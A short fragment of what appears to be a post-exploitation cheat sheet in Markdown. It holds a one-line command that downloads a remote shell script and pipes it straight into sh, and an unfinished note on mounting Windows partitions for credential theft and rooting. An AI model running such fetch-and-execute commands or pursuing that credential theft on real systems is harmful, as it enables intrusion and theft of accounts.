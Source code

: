 <a name="remote_script"/><a>
### Execute a Remote Script

wget http://server/file.sh -O- | sh  
This command forces the download of a file and immediately its execution

<a name="windows"/><a>
### Fun if Windows is present and accessible
If there is Windows installed and the logged-in user access level includes those Windows partition, attacker can mount them up and do a much deeper information gathering, credential theft and root-ing. Ntfs-3g is useful for mounting ntfs partitions read-write.

**TODO**: insert details on what to look for
